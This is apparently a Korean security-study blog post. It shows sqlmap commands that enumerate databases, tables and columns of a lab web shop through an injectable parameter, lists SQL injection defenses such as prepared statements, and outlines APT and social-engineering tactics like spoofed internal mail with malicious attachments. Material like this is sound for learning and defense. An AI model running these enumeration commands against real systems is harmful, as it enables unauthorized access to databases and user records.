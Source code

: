```
#v_num을 파라매터로 설정, db 이름을 얻기 위해 --dbs 옵션 사용
# ./sqlmap.py -u "http://192.168.0.114:8888/list.asp?page=1&v_num=2" -p "v_num" --dbs

#-D로 데이터베이스 이름 설정 -tables 옵션으로 테이블 정보 획득
# ./sqlmap.py -u "http://192.168.0.114:8888/list.asp?page=1&v_num=2" -p "v_num" --tables -D "shopmall"

#--columns 옵션으로 컬럼 정보 획득 -T로 테이블 지정 -D로 데이터베이스 지정
# ./sqlmap.py -u "http://192.168.0.114:8888/list.asp?page=1&v_num=2" -p "v_num" --columns -T "members" -D "shopmall"
```

GUI와 Burpsuite에서도 SQLmap을 지원한다.
{: .notice}


---
### SQL 인젝션 대응방안
---

* 변수 입력 값에 대한 길이 제한
	* 서비스 환경에 따라 글자 수 제한
* 정해진 패턴에 대해서만 허용
	* and, or, ', " 을 원천적 차단
* 인코딩 형식으로 출력
	* 하지만 블랙리스트 방식이라 우회 기법에 대해 무기력하다.
* prepared Statement 사용
	* 정해진 데이터형 이외에는 입력이 되지 않게 원천적으로 방어
	* MSSQL, MySQL에서는 프로시저 방식을 이용해서도 대응할 수 있다.
{: .notice--info}

---
### 사회공학적 공격 기법
---

* APT 공격: 공공기관이나 특정 사용자를 대상으로 접근하는 공격
* APT 공격에 사용하는 것이 사회공학적 기법
* 사회공학적 공격: 사람들의 심리를 이용하거나 도청 등을 통해 최대한 자신이 원하는 목적을 달성한다.
* 이메일 서비스, 소셜 네트워크 서비스 등 이용
* 대응을 위해 보안 의식 진단, 웜/바이러스 대응 체계 진단 등 프로젝트를 진행하여 위험성을 인식하게 해주곤 한다.
{: .notice--info}

예로들어 메일 서비스에 XXS 취약점을 이용하는 방법이 많이 쓰인다.
혹은 액티브X 취약점을 이용하거나 스팸성 메일을 사용하기도 한다. 
{: .notice}

* 스팸 메일 방식
* 공격자 서버에서 SMTP 서버를 구축해서 스팸 메일러로 대량 발송
* 회사 내부 서버를 이용해 임직원의 아이디로 속여서 발송 
* 이때 첨부 파일로 배치 파일로 간단한 스크립트 형태로 PC 정보를 얻도록 하거나, 범용 애플리케이션 취약점, PDF 취약점, MS-Office 취약점을 이용한다.
{: .notice}

---